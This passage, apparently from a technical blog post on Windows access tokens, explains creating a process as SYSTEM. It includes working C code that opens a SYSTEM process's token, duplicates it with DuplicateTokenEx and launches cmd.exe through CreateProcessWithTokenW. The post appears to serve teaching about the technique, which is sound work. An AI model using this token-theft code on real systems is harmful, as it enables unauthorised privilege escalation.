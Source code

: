 Since it doesn’t have an impersonation token set, it will use the process’s token instead. It is possible to create our own token from scratch by calling the ntdll function ZwCreateToken but that is out of scope for this post. For more information on using ZwCreateToken, I recommend reading [this post](https://decoder.cloud/2019/07/04/creating-windows-access-tokens/).

## Process as SYSTEM
What is normally used to create a process with the Win32 API is CreateProcess, this however cannot be used because a token cannot be specified with it. However, [CreateProcessWithTokenW](https://learn.microsoft.com/en-us/windows/win32/api/winbase/nf-winbase-createprocesswithtokenw) does allow a primary (not impersonation) token to be specified to create a new process.

```c
BOOL returnValue = OpenProcessToken(systemProcess, TOKEN_ASSIGN_PRIMARY | TOKEN_DUPLICATE | TOKEN_IMPERSONATE | TOKEN_QUERY, &token);
if (returnValue == 0) {
	printf("[-] Error opening handle to SYSTEM process: %d\n", GetLastError());
	return 3;
}
printf("[+] Token to SYSTEM process obtained %p\n", token);

HANDLE systemToken;
ZeroMemory(&systemToken, sizeof(systemToken));

SECURITY_IMPERSONATION_LEVEL seImpersonateLevel = SecurityImpersonation;
TOKEN_TYPE tokenType = TokenPrimary;

returnValue = DuplicateTokenEx(token, MAXIMUM_ALLOWED, NULL, seImpersonateLevel, tokenType, &systemToken);
if (returnValue == 0) { 
	printf("[-] Error in duplicating token of SYSTEM process %d\n", GetLastError());
	return 4;
}
printf("[+] Success in duplicate process running as SYSTEM %p\n", systemToken);

STARTUPINFO si;
PROCESS_INFORMATION pi;

ZeroMemory(&si, sizeof(si));
ZeroMemory(&pi, sizeof(pi));

returnValue = CreateProcessWithTokenW(systemToken, 0, L"C:\\Windows\\System32\\cmd.exe", NULL, CREATE_NEW_CONSOLE, NULL, L"C:\\Windows\\System32", &si, &pi);
if (returnValue == 0) {
	printf("[-] Error in creating process as SYSTEM user %d\n", GetLastError());
	return 5;
}
```

Executing this program creates a new console that is running in the context of the SYSTEM user.
